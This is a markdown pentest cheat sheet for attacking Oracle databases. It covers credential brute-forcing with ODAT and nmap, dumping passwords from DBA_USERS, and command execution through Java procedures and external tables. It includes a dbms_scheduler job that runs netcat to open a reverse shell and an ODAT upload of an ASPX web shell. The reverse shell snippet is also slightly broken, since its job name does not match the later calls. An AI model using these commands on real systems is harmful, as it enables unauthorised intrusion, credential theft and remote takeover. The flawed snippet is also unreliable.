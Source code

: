 # Oracle 

Oracle default port: `1521/tcp`

> Install 

    yay -S tnscmd10g
    yay -S oracle-instantclient-sqlplus

> ODAT

    odat all -s TARGET_IP-p 1521

    odat passwordguesser -s TARGET_IP -p 1521 -d SID --accounts-file accounts/accounts_multiple.txt


> Status 

    tnscmd10g status -h TARGET_IP
> Fingerprint Oracle TNS Version

    tnscmd10g version -h TARGET_IP
    nmap --script=oracle-tns-version TARGET_IP

> Brute

    nmap --script=oracle-sid-brute TARGET_IP
    nmap --script=oracle-brute TARGET_IP
> Oscanner

    oscanner -s TARGET_IP -P 1521 

## Client 

> sqlplus

    sqlplus USERNAME/PASSWORD@TARGET_IP:PORT/SID


    sqlplus USERNAME/PASSWORD@TARGET_IP:PORT/SID 'as sysdba'

### Client with GUI

    DBeaver

# Queries 

```SQL
SELECT * FROM session_privs; 
SELECT USERNAME PASSWORD FROM DBA_USERS; 
```


## RCE 

> Get Oracle Reverse os-shell


```SQL
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET_IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
```

    sqlplus USERNAME/PASSWORD@TARGET_IP:PORT/SID

> Execute Code via Java Stored Procedure

    odat java -s TARGET_IP -U USERNAME -P PASSWORD -d SID --exec COMMAND


> Execute code via External Tables

```zsh
odat externaltable -s TARGET_IP -U USERNAME -P PASSWORD -d SID --exec "C:/windows/system32" "calc.exe"
```
> Upload file
```zsh
odat dbmsxslprocessor -s TARGET_IP -U USERNAME -P PASSWORD -d SID --sysdba --putFile "c:\\inetpub\\wwwroot" "shell.aspx" "/tmp/shell.aspx"
```
